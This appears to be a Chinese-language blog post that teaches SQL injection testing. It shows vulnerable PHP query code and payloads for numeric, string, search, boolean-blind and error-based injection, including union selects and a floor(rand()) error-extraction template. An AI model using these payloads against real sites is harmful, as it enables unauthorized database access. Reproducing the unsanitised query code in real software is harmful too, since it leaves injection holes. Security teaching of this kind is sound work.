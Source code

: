 ```yaml
---
title:  SQL注入
layout: post
categories: web
tags: SQL注入
excerpt: SQL注入
---
```

# SQL注入

## 注入點測試

##### 數字型
```
$id=@$_GET['id']; //id未经过滤
$sql = "SELECT * FROM sqltest WHERE id='$id'";


?id=1'//报错
?id=1 and 1=1
?id=1 and 1=2//两者回显不同
```
##### 字符型
```
$sql="select * from user where username = '$name'";  //php
select  * from user where username = 'admin'  //sql
$query="select first_name from users where id='$_GET['id']'";  //字符型
1' union select database() #; //输入
select first_name from users where id='1'union select database()#' //sql语句变形

?id=1' and '1'='1--
?id=1' and '1=2--//回显不同
```
##### 搜索型
```
$sql="select * from user where password like '%$pwd%' order by password"; 
'and 1=1 and '%'='  //输入
select * from user where password like '%fendo'and 1=1 and '%'='%' order by password//sql语句

'and 1=1 and '%'='
password'//报错，90存在
password% //报错，95存在
password%'and 1=1 '%'='
password%'and 1=2 '%'='//回显不同
```
##### 布爾型
```
//输入没有回显
?id=1
?id=1'
?id=1''
?id=1%23
?id=1' and 1=1#1
```
##### 報錯型
```
//页面调试会有报错回显
?id=2' and (select 1 from (select count(*),concat( floor(rand(0)*2),(select (select (爆错语句)) from information_schema.tables limit 0,1))x from information_schema.tables group by x )a)--+
//通过某一种报错语句来判断
```
